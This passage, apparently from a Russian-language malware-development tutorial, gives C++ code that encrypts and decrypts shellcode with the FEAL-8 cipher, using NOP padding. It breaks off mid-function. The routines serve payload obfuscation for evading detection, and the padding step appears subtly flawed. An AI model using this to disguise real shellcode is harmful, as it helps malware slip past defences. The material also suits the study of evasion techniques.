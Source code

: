 Далее, логика шифрования:    

```cpp
// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

Эта функция выполняет шифрование `FEAL-8` для `64-битного` блока данных (разделенного на две `32-битные` половины: `left` и `right`). Она выполняет `8-раундов` шифрования, применяя `G` функцию с соответствующим подключом в каждом раунде.    

Логика дешифрования:     

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

И логика шифрования и дешифрования шеллкода:

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
```